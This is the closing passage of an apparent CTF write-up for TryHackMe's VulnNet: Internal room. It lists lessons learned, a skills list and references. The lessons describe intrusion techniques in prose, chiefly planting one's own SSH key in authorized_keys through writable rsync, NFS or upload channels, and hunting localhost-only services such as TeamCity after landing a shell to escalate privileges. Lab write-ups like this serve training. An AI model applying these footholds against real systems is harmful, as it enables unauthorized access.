3. **Base64 is never a wall.** Anything that looks Base64-encoded is one `base64 -d` away from readable — always decode and check before moving on.
4. **Write access to `authorized_keys` is equivalent to a valid password.** You don't need to break SSH itself if you can plant your own key through any other writable channel — rsync, NFS, an upload form, anything.
5. **`ss -tno` after landing a shell is non-negotiable.** External scans only see what's exposed to the outside; localhost-bound services (like TeamCity here) are frequently where the real privilege escalation path lives, and they're completely invisible until you're already inside.

## Skills Demonstrated

`Network Services Enumeration` `SMB / NULL Session Enumeration` `NFS Mounting & Config Analysis` `Redis Enumeration` `Base64 Decoding` `Rsync Module Abuse` `SSH authorized_keys Foothold` `Internal Service Discovery (ss)` `SSH Local Port Forwarding` `TeamCity CI/CD Exploitation` `SUID Privilege Escalation`

## References

- [TryHackMe — VulnNet: Internal](https://tryhackme.com/room/vulnnetinternal)
- [rsync — official documentation](https://rsync.samba.org/)
- [Redis Security — official docs](https://redis.io/docs/latest/operate/oss_and_stack/management/security/)
- [OpenSSH — authorized_keys format](https://man.openbsd.org/sshd.8#AUTHORIZED_KEYS_FILE_FORMAT)
- [TeamCity — Super User Authentication Token docs](https://www.jetbrains.com/help/teamcity/superuser.html)
